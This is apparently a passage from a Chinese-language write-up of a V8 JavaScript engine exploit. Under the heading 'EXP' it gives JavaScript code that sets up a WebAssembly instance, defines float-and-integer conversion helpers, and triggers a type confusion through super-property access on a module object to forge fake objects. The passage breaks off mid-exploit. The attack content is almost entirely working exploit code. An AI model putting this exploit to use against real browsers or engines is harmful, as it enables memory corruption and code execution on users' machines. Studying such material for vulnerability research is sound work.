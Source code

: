这一段的内容就同上面所描述的相似，代码也并不是很长，读者可以简单理解一下

## EXP

```javascript
import('./2.mjs').then((m1) => {
    var f64 = new Float64Array(1);
	var bigUint64 = new BigUint64Array(f64.buffer);
	var u32 = new Uint32Array(f64.buffer);
    wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
    var wasmModule = new WebAssembly.Module(wasmCode);
    var wasmInstance = new WebAssembly.Instance(wasmModule, {});
    var f = wasmInstance.exports.main;
	function d2u(v) {
        f64[0] = v;
        return u32;
	}
	function u2d(lo, hi) {
        u32[0] = lo;
        u32[1] = hi;
        return f64[0];
	}
	function ftoi(f)
	{
	    f64[0] = f;
		return bigUint64[0];
	}
	function itof(i)
	{
		bigUint64[0] = i;
		return f64[0];
	}
    function hex(i)
    {
        return i.toString(16).padStart(8, "0");
    }
    class C {
		m() {
			return super.x;
		}
	}
    obj_prop_ut_fake = {};
    for (let i = 0x0; i < 0x11; i++) {
        obj_prop_ut_fake['x' + i] = u2d(0x082c2121, 0);
    }
    C.prototype.__proto__ = m1;
    function trigger() {
        let c = new C();

        c.x0 = obj_prop_ut_fake;
        let res = c.m();
        return res;
	}
    for (let i = 0; i < 10; i++) {
        trigger();
    }
    let evil = trigger();

    var demo_array=new Array(0xf000);
    var demo_array=new Array(0xf000);
    demo_ele_addr=0x82c2120;
```